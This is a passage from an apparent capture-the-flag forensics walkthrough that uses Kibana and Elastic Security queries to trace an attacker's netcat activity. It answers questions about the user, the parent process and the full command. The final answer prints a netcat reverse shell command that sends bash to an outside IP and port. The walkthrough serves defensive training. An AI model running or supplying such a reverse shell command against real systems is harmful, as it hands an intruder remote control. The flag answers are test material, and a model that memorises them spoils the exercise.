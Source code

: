 ![image](../assets/img/elastic-case/39.png)

`🖥️ Kibana`

- In kibana logs index search using `process.args : "nc" and event.action : exec` then extract user.name field from selected fields.

![image](../assets/img/elastic-case/118.png)

> Flag: solr

#### 19. What is the parent process name of netcat?

`🛡️ Elastic Security`

- We got the netcat process from the previous question using `process.args : "nc" and event.action : exec`, click on the analyze box, you can clearly see the parent peocess of netcat. 

![image](../assets/img/elastic-case/40.png)

![image](../assets/img/elastic-case/41.png)

`🖥️ Kibana`

- In kibana logs index search using `process.args : "nc" and event.action : exec` then extract process.parent.name field from selected fields.

![image](../assets/img/elastic-case/119.png)

> Flag: java

#### 20. If you focus on nc process, you can get the entire command that the attacker ran to get a reverse shell. Write the full command?

`🛡️ Elastic Security`

- Attacker create reverse shell using netcat, we alredy get some information from the previous questions.

- Again you can use `process.args : "nc" and event.action : exec` and analyze the event then combine all arguments and get the answer. 

![image](../assets/img/elastic-case/42.png)

![image](../assets/img/elastic-case/43.png)

`🖥️ Kibana`

- In kibana logs index search using `process.args : "nc" and event.action : exec` then extract process.command_line field from selected fields.

![image](../assets/img/elastic-case/120.png)

> Flag: nc -e /bin/bash 192.168.1.10 9999
